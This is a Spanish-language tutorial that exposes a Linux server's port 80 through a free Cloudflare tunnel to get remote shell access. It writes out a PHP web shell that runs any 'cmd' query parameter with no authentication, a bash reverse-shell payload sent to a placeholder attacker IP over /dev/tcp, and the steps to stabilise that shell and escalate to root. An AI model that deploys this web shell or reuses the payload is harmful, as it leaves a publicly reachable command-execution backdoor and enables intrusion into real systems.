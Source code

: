 ```yaml
---
icon: cloudflare
---
```


# Exponer Puerto con Cloudflare Gratis

Si por ejemplo queremos exponer un puerto de forma gratuita para podernos conectar a nuestro servidor de `Linux` obteniendo una shell y pudiendo hacer lo que queramos desde cualquier parte del mundo, podremos realizar un truco.

En vez de pagar un dominio en `Cloudflare` para exponer el puerto `SSH` y conectarnos de forma remota, podremos exponer el puerto `80`, crear una pagina en `PHP` que nos permita inyectar comandos directamente en el servidor, para asi poder obtener una `reverse shell`, a todo esto le podemos poner una seguridad dentro del `PHP` como por ejemplo un `login` para que los usuarios que esten autenticados pueda generar una `reverse shell` desde la pagina web.

## Instalar cliente de Cloudflare

Lo que tendremos que hacer de primeras es instalar el cliente de `Cloudflare`, en mi caso lo hare en `Linux` desde esta pagina.

URL = [Pagina Cloudflare Downloads](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/#linux)

> NOTA IMPORTANTE

Para saber la arquitectura de nuestro sistema `Linux` podremos hacerlo con `uname -m` en la terminal, en mi caso me pone `x86_64` por lo que sabemos que seria `AMD x86_64`.

> Listado de arquitecturas de Sistema Linux

* `x86_64` → arquitectura **AMD64/Intel 64** (también llamado **x64**)
* `i686` o `i386` → arquitectura **32-bit x86**
* `aarch64` → arquitectura **ARM de 64 bits**
* `armv7l` → arquitectura **ARM de 32 bits**

Una vez descargado en mi caso seria el `.deb`, tendremos que ejecutar el siguiente comando para instalarlo.

```shell
dpkg -i <FILE>.deb
```

Una vez que se haya instalado (No deberia de tardar) podremos exponer un puerto `web` de la siguiente forma, pero antes de hacerlo tendremos que instalar `apache2`.

## Instalar/Configurar Servidor Web (apache2)

```shell
sudo apt update
sudo apt install apache2
```

Una vez instalado, vamos a iniciar el servicio de esta forma.

```shell
service apache2 start
systemctl enable apache2 #En tal caso de que tuvieramos la herramienta "systemctl"
```

Echo esto vamos añadir en la ruta donde se alojan las paginas web de `apache2` el siguiente archivo sencillo para podernos generar una `reverse shell`.

```shell
nano /var/www/html/index.php

#Dentro del nano
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "<pre>";
    system($cmd);
    echo "</pre>";
} else {
    echo "Usa ?cmd=comando para ejecutar.";
}
?>
```

Lo guardamos, le establecemos permisos de ejecuccion.

```shell
chmod +x /var/www/html/index.php
chown -R www-data:www-data /var/www/html/
sudo apt install apache2 php libapache2-mod-php -y
```

Ahora reiniciamos el servicio de `apache2`.

```shell
service apache2 restart
```

Echo esto ahora si vamos a exponer nuestro puerto `80` que es donde esta la pagina web de `apache2` de esta forma.

## Iniciar Cloudflare (Tunelización)

```shell
cloudflared tunnel --url http://localhost:80
```

Info:

```
2025-06-17T14:52:05Z INF Thank you for trying Cloudflare Tunnel. Doing so, without a Cloudflare account, is a quick way to experiment and try it out. However, be aware that these account-less Tunnels have no uptime guarantee, are subject to the Cloudflare Online Services Terms of Use (https://www.cloudflare.com/website-terms/), and Cloudflare reserves the right to investigate your use of Tunnels for violations of such terms. If you intend to use Tunnels in production you should use a pre-created named tunnel by following: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps
2025-06-17T14:52:05Z INF Requesting new quick Tunnel on trycloudflare.com...
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
2025-06-17T14:52:11Z INF |  https://recording-phpbb-webmaster-cf.trycloudflare.com                                    |
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF Version 2025.6.1 (Checksum <CHECKSUM>)
2025-06-17T14:52:11Z INF GOOS: linux, GOVersion: go1.24.2, GoArch: amd64
2025-06-17T14:52:11Z INF Settings: map[ha-connections:1 protocol:quic url:http://localhost:80]
2025-06-17T14:52:11Z INF cloudflared will not automatically update if installed by a package manager.
2025-06-17T14:52:11Z INF Generated Connector ID: <ID>
2025-06-17T14:52:11Z INF Initial protocol quic
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv4> as source for IPv4
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv6> in zone ens33 as source for IPv6
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv4> as source for IPv4
2025-06-17T14:52:11Z INF ICMP proxy will use <IPv6> in zone ens33 as source for IPv6
2025-06-17T14:52:11Z INF Starting metrics server on 127.0.0.1:20241/metrics
2025-06-17T14:52:11Z INF Tunnel connection curve preferences: [X25519MLKEM768 CurveID(<CURVEID>) CurveP256] connIndex=0 event=0 ip=<IP_PUBLICA>
2025-06-17T14:52:11Z INF Registered tunnel connection connIndex=0 connection=<ID> event=0 ip=<IP_PUBLICA> location=mad02 protocol=quic
```

De toda esta informacion tendremos que quedarnos donde pone:

```
+--------------------------------------------------------------------------------------------+
2025-06-17T14:52:11Z INF |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
2025-06-17T14:52:11Z INF |  https://recording-phpbb-webmaster-cf.trycloudflare.com                                    |
2025-06-17T14:52:11Z INF +--------------------------------------------------------------------------------------------+
```

En concreto donde empieza el `https://...` todo eso va a ser nuestro dominio `tunelizado` desde nuestro servidor local de `apache` por lo que cuando alguien se conecte de forma externa, como por ejemplo nosotros desde otro ordenador, lo que estaremos haciendo sera conectarnos a `http://localhost:80` de forma externa, por lo que si en un navegador ponemos...

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com
```

Veremos nuestra interfaz de `apache2` por defecto ya que no eliminamos nuestro `index.html`, pero vamos a ir al archivo que hemos creado de `PHP`.

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com/index.php?cmd=whoami
```

Info:

```
www-data
```

Veremos que esta funcionando, ahora si desde otro ordenador con un `kali linux` nos ponemos a la escucha con `nc` de esta forma.

## Obtener acceso a nuestro servidor por shell

```shell
nc -lvnp <IP>
```

Y desde la `URL` enviamos una `reverse shell` de esta forma.

```
URL = https://recording-phpbb-webmaster-cf.trycloudflare.com/index.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATTACKER>/<PORT> 0>%261"
```

Lo enviamos y si volvemos a donde tenemos nuestra escucha veremos que habremos obtenido acceso como el usuario `www-data` por lo que sanitizaremos la `shell`.

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez echo esto ya tendremos una `shell` bien sanitizada y habremos podido acceder a nuestro servidor de forma gratuita sin comprar ningun dominio en `Cloudflare`, ni exponer el puerto `SSH` de forma directa, solamente desde la `web`, ya solo tendremos que hacer.

```shell
su root
```

Meter la contraseña de `root` que hayamos puesto y listo, tendremos acceso al servidor como `root` desde cualquier parte del planeta.
